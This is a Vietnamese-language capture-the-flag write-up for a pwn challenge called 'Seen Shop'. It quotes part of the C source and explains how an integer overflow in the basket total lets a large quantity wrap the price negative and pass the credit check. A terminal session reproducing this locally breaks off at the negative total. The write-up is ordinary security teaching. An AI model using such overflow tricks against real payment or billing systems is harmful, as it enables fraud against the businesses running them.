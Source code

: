 ```c

    printf("Total: %d\n",total);
    if(total > credit){
        puts("Not enough credit.");
        exit(0);
    }

    if(quantities[6] > 10){
        puts("oh... pole ke mirize...");
        system("cat /flag");
    }
    puts("Thank you ~~ Have a nice Nowruz!");
    exit(0);
}
```

Sau khi review qua source code thì tóm lại chương trình sẽ mô phỏng lại một cửa hàng buôn bán online với các tính năng: `(1) Thêm vào giỏ hàng; (2) Thanh toán; (3) Gọi đến một hàm in ra một chuỗi "na bassete"; (4) Thoát chương trình.`

Để lấy được flag thì khi checkout số tiền thanh toán phải lớn hơn tổng số tiền hàng mà mình đã đặt mua, còn nếu không thì chương trình sẽ thoát.
Đồng thời, số lượng của sản phẩm **Sekkeh** phải > 10 thì mới lấy được flag.

=> Ở đây, chương trình mắc phải lỗi Integer Overflow ở logic xử lý tỉnh tổng số tiền cần thanh toán: `total += seens[i].price * quantities[i];`

Chỉ cần truyền số lượng sản phẩm cần mua đủ lớn để khiến cho **total** bị âm hoặc nhỏ đi => nhỏ hơn **credit** => Get the flag

### Exploit

Do server đã đóng nên mình sẽ build lại và mô phỏng lại quá trình khai thác

```bash
┌──(kali㉿ANONYMOUS)-[/mnt/d/Security/ctf-storage/2025/Nowruz 1404/pwn/Seen Shop]
└─$ gcc seen-shop.c -o seen-shop

┌──(kali㉿ANONYMOUS)-[/mnt/d/Security/ctf-storage/2025/Nowruz 1404/pwn/Seen Shop]
└─$ ./seen-shop
Shop Menu:
1. Add to Basket
2. Checkout
3. Top up
4. Exit
Enter your choice: 1
Available 7 Seens:
1. Sabzeh - 30000 Toman
2. Senjed - 20000 Toman
3. Seer - 20000 Toman
4. Seeb - 10000 Toman
5. Samanu - 35000 Toman
6. Serkeh - 40000 Toman
7. Sekkeh - 80000000 Toman
Enter item number to add (1-7): 7
Enter quantity: 27
Added 27 Sekkeh(s) to your basket.
Shop Menu:
1. Add to Basket
2. Checkout
3. Top up
4. Exit
Enter your choice: 2
Your Basket:
Sekkeh - 27 item = -2134967296 Toman
Total: -2134967296
```